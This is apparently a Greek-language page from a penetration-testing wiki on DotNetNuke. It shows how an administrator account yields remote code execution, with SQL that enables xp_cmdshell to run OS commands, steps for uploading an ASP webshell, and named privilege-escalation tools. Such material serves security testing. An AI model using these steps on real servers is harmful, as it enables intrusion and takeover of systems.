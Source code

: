 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Αν εισέλθετε ως **administrator** στο DNN, είναι εύκολο να αποκτήσετε RCE.

## RCE

### Μέσω SQL

Μια κονσόλα SQL είναι προσβάσιμη κάτω από τη σελίδα **`Settings`** όπου μπορείτε να ενεργοποιήσετε το **`xp_cmdshell`** και **να εκτελέσετε εντολές λειτουργικού συστήματος**.

Χρησιμοποιήστε αυτές τις γραμμές για να ενεργοποιήσετε το **`xp_cmdshell`**:
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
Και πατήστε **"Run Script"** για να εκτελέσετε αυτές τις SQL εντολές.

Στη συνέχεια, χρησιμοποιήστε κάτι όπως το παρακάτω για να εκτελέσετε εντολές OS:
```sql
xp_cmdshell 'whoami'
```
### Μέσω ASP webshell

Στο `Settings -> Security -> More -> More Security Settings` μπορείτε να **προσθέσετε νέες επιτρεπόμενες επεκτάσεις** κάτω από `Allowable File Extensions`, και στη συνέχεια να κάνετε κλικ στο κουμπί `Save`.

Προσθέστε **`asp`** ή **`aspx`** και στη συνέχεια στο **`/admin/file-management`** ανεβάστε ένα **asp webshell** που ονομάζεται `shell.asp` για παράδειγμα.

Στη συνέχεια, αποκτήστε πρόσβαση στο **`/Portals/0/shell.asp`** για να αποκτήσετε πρόσβαση στο webshell σας.

### Κλιμάκωση Δικαιωμάτων

Μπορείτε να **κλιμακώσετε δικαιώματα** χρησιμοποιώντας το **Potatoes** ή το **PrintSpoofer** για παράδειγμα.&#x20;

{{#include ../../banners/hacktricks-training.md}}

